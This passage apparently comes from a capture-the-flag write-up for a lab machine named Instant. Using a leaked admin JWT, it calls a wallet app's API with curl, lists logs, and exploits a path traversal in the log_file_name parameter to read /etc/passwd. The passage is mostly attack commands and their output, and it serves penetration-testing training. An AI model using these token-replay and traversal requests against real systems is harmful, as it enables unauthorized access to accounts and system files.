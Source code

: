We can confirm the token is still valid by using it to make a request to the API endpoint.

```
┌──(kali㉿kali)-[/tmp/instant/decompile]
└─$ curl "http://mywalletv1.instant.htb/api/v1/view/profile" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"     
{"Profile":{"account_status":"active","email":"admin@instant.htb","invite_token":"instant_admin_inv","role":"Admin","username":"instantAdmin","wallet_balance":"10000000","wallet_id":"f0eca6e5-783a-471d-9d8f-0162cbc900db"},"Status":200}
```


## Foothold
Recall that there is another subdomain that we found, ```swagger-ui.instant.htb```. This subdomain contains documentation for the REST API endpoints on ```mywalletv1.instant.htb```, from which we can get a clearer picture of the app's full range of funcitonality.

![Swagger ui](/img/instant/swagger-ui.png)

There is an API endpoint ```/api/v1/admin/view/logs``` that lets us view available logs. Perhaps one of them has credentials we could use to escalate privileges.

![View logs api endpoint](/img/instant/view_logs.png)

```
┌──(kali㉿kali)-[/tmp/instant/decompile]
└─$ curl "http://mywalletv1.instant.htb/api/v1/admin/view/logs" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
{"Files":["1.log"],"Path":"/home/shirohige/logs/","Status":201}
```

The API returns a single log file ```1.log``` in ```shirohige```'s home directory. We can read it by passing in its filename as the argument for ```log_file_name``` to ```/api/v1/admin/read/log```.

![Read log api endpoint](/img/instant/read_log.png)

```
┌──(kali㉿kali)-[/tmp/instant/decompile]
└─$ curl "http://mywalletv1.instant.htb/api/v1/admin/read/log?log_file_name=1.log" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
{"/home/shirohige/logs/1.log":["This is a sample log testing\n"],"Status":201}
```

Unfortunately the log itself reveals nothing of interest. But the fact that the filename is directly appended to the path ```/home/shirohige/logs``` in the response may indicate that the operation for file read also directly passes in user input, casuing a path traversal vulnerability. We can test this by sending a request to read ```/etc/passwd```. 

```
┌──(kali㉿kali)-[/tmp/instant/decompile]
└─$ curl "http://mywalletv1.instant.htb/api/v1/admin/read/log?log_file_name=../../../etc/passwd" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq .  
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1673  100  1673    0     0  15447      0 --:--:-- --:--:-- --:--:-- 15490
{
  "/home/shirohige/logs/../../../etc/passwd": [
    "root:x:0:0:root:/root:/bin/bash\n",
    "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n",
    "bin:x:2:2:bin:/bin:/usr/sbin/nologin\n",
    "sys:x:3:3:sys:/dev:/usr/sbin/nologin\n",
```